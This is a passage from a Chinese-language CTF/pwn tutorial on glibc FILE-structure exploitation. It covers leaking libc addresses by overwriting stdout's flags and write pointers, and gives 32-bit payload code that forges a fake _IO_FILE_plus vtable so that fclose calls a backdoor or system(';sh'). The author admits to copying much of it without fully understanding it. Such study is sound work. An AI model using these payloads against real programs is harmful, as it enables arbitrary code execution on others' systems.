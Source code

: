 ##### ①. stdout 泄露libc地址


```c
//其实说白了就只需要做这么几件事就行
//1. 找机会修改 _IO_2_1_stdout_ 指针所指向的地址
//2. 修改 _flags = 0xFBAD1800
//3. 设置_IO_write_base指向想要泄露的位置，_IO_write_ptr指向泄露结束的地址
//具体原理我还不是很清楚，但是基本要素便是 _IO_write_base 的值小于 _IO_write_ptr
//当下一次put函数使用时，便会使用到这个早就被我们修改的_IO_2_1_stdout_ 
//泄露从 _IO_write_base 到 _IO_write_ptr 所有的字节数据。

```

一般情况下所用脚本代码类似于

```python
 malloc(1,0x30,p64(0xfbad1887) + p64(0) * 3 + b'\x00')
```

可能有同志就要问了：“`_flags`不应该是`int`类型的吗？那不就应该是`4`字节数据吗？怎么还是以`p64`的方式去写呢？”

这个其实就是和结构体对齐有关了，说是以`int`类型占据`4`字节，但是为了对齐之大业，也只好以周公之事侍之，占据`8`字节。

最后一个 `b'\x00'`  便是这个过程的灵魂之笔，不用泄露太多，来一点就行，总有能显示`libc`的地方。

##### ② . `fclose` 劫持`fp`指针,伪造`_IO_FILE_plus`结构
后面这些全是转载，原理啥的我也不太懂，不过自古以来抄板子就是pwn的一个优良传统

伪造`IO_FILE_plus`结构体, `32`位和`64`位不一样，`32`位的需要伪造`vtable`,而`64`位可以不用伪造`vtable`，因为64位的在绕过几个函数后会获得一次`call [rax + 0x10]`的机会。

![](.\media\graph_11.webp)

先说`32bits`的

- 调用 `IO_FINISH(fp)`的情况

  ```python
  #注意flags字段，只需要_flags & 0x2000为0就会直接调用 IO_FINSH(fp)，IO_FINISH(fp)相当于调用fp->vtabl->__finish(fp)
  #其中shell是后门函数
  fake_file = "\x00" * 0x48 + p32(buf_add)
  fake_file = fake_file.ljust(0x94, "\x00")
  fake_file += p32(buf_add + 0x98 - 0x8)#fake_vtable_addr = buf_addr + 0x98 - 0x8
  fake_file += p32(shell)
  #不存在后门函数的情况
  fake_file = "\x00" * 4 + ";sh" 
  fake_file = fake_file.ljust(0x48,'\x00')+ p32(buf_add)
  fake_file = fake_file.ljust(0x94, "\x00")
  fake_file += p32(buf_add + 0x98 - 0x8)#fake_vtable_addr = buf_addr + 0x98 - 0x8
  fake_file += p32(system)
  ```
  